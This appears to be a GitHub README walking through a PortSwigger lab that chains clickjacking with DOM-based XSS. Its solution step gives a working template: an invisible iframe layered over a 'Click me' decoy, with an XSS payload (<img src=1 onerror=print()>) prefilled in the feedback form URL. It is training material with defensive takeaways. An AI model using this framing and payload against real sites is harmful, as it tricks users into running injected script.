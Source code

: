 # Clickjacking - Exploiting clickjacking vulnerability to trigger DOM-based XSS

## 📌 Lab Details
- **Title**: Exploiting clickjacking vulnerability to trigger DOM-based XSS
- **Difficulty**: Practitioner
- **Category**: Clickjacking
- **Lab URL**: https://portswigger.net/academy/labs/launch/d259e02fbd358d4b88e4de6938c6bcd31a3c35a7ba4fc54fa4352a3822990f24?referrer=%2fweb-security%2fclickjacking%2flab-exploiting-to-trigger-dom-based-xss

## 🔍 Summary
This lab demonstrates combining **Clickjacking with stored XSS** by framing the feedback form with a prepopulated XSS payload, tricking the victim into clicking “Click me” while actually triggering `print()` via the XSS when the victim clicks.

## 🛠 Steps to Solve
1. Log in to the given account.
2. Inject the **XSS** modified payload on the **Exploit** server:
   ```sh
   <style>
	iframe {
		position:relative;
		width:$width_value;
		height: $height_value;
		opacity: $opacity;
		z-index: 2;
	}
	div {
		position:absolute;
		top:$top_value;
		left:$side_value;
		z-index: 1;
	}
   </style>
   <div>Click me</div>
   <iframe
   src="YOUR-LAB-ID.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=hacker@attackerwebsite.com&subject=test&message=test#feedbackResult"></iframe>
   ```
3. Adjust the values of the template to align the `Click me` button with the `Submit feedback` button.
4. Deliver exploit to the victim to complete the lab.
   
## 📖 Key Takeaways
- Uses a **prepopulated URL with an XSS payload** (`<img src=1 onerror=print()>`) to execute JavaScript on click.
- Highlights the need for **anti-clickjacking and XSS defenses together** to prevent such chained attacks.
- Shows how **Clickjacking can be used to exploit XSS that requires user interaction**.

## 🖼️ Screenshot 
![image](https://github.com/user-attachments/assets/e3371a7f-cd70-4dd3-a81c-633522d69887)
![image](https://github.com/user-attachments/assets/b1430c2b-09ab-4dc1-b203-415d89f6f7c6)
![image](https://github.com/user-attachments/assets/29b0b755-fdaa-4577-b18b-adba75e7c4a7)
